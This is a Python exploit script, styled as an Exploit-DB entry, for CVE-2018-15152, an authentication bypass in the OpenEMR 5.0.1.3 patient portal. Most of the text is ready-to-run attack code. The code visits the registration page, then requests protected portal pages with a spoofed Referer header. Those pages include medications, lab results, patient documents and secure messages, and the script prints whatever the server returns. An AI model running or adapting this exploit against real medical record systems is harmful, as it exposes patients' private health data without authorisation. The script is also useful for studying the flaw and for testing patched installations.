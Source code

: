     # Exploit Title: OpenEMR 5.0.1.3 - '/portal/account/register.php' Authentication Bypass
    # Date 15.06.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Vendor Homepage: https://www.open-emr.org/
    # Software Link: https://github.com/openemr/openemr/archive/refs/tags/v5_0_1_3.zip
    # Version: All versions prior to 5.0.1.4
    # Tested on: Ubuntu 18.04
    # CVE: CVE-2018-15152
    # CWE: CWE-287
    # Documentation: https://github.com/Hacker5preme/Exploits#CVE-2018-15152-Exploit

    '''
    Description:
    An unauthenticated user is able to bypass the Patient Portal Login by simply navigating to
    the registration page and modifying the requested url to access the desired page. Some
    examples of pages in the portal directory that are accessible after browsing to the
    registration page include:
    - add_edit_event_user.php
    - find_appt_popup_user.php
    - get_allergies.php
    - get_amendments.php
    - get_lab_results.php
    - get_medications.php
    - get_patient_documents.php
    - get_problems.php
    - get_profile.php
    - portal_payment.php
    - messaging/messages.php
    - messaging/secure_chat.php
    - report/pat_ledger.php
    - report/portal_custom_report.php
    - report/portal_patient_report.php
    Normally, access to these pages requires authentication as a patient. If a user were to visit
    any of those pages unauthenticated, they would be redirected to the login page.
    '''


    '''
    Import required modules:
    '''
    import requests
    import argparse


    '''
    User-Input:
    '''
    my_parser = argparse.ArgumentParser(description='OpenEMR Authentication bypass')
    my_parser.add_argument('-T', '--IP', type=str)
    my_parser.add_argument('-P', '--PORT', type=str)
    my_parser.add_argument('-U', '--Openemrpath', type=str)
    my_parser.add_argument('-R', '--PathToGet', type=str)
    args = my_parser.parse_args()
    target_ip = args.IP
    target_port = args.PORT
    openemr_path = args.Openemrpath
    pathtoread = args.PathToGet


    '''
    Check for vulnerability:
    '''
    # Check, if Registration portal is enabled. If it is not, this exploit can not work
    session = requests.Session()
    check_vuln_url = 'http://' + target_ip + ':' + target_port + openemr_path + '/portal/account/register.php'
    check_vuln = session.get(check_vuln_url).text
    print('')
    print('[*] Checking vulnerability: ')
    print('')

    if "Enter email address to receive registration." in check_vuln:
        print('[+] Host Vulnerable. Proceeding exploit')
    else:
        print('[-] Host is not Vulnerable: Registration for patients is not enabled')

    '''
    Exploit:
    '''
    header = {
        'Referer': check_vuln_url
    }
    exploit_url = 'http://' + target_ip + ':' + target_port + openemr_path + pathtoread
    Exploit = session.get(exploit_url, headers=header)
    print('')
    print('[+] Results: ')
    print('')
    print(Exploit.text)
    print('')